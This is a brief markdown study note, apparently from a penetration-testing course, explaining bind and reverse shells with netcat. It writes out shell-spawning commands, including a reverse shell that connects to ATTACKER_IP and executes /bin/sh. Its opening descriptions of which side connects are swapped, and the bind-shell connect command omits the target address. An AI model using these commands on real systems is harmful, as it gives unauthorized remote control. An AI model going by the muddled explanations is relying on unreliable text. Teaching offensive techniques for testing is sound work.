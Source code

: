 - 2 Types of shells:
	1. Bind Shell (open a port on victim and listen)
		- victim connects to you
	2. Reverse Shell (listens on attacker side)
		- you connect to victim

- using netcat for connections


- **bind shell**
	- listen on target machine and connect
- less common
	- mostly in external assesments
	- trying to bypass connection issues
 ```bash
# TARGET
nc -nvlp <PORT> -e /bin/sh
# ATTACKER
nc <PORT>
```

- **reverse shell**
	- listen for response from to target to connect
 ```bash
 # ATTACKER
nc -nvlp <PORT>
-n : no DNS (numeric only)
-v : verbose
-l : listen
-p : port

# TARGET
nc <ATTACKER_IP> <PORT> -e /bin/sh
-e : specify filename  to exec after connect
```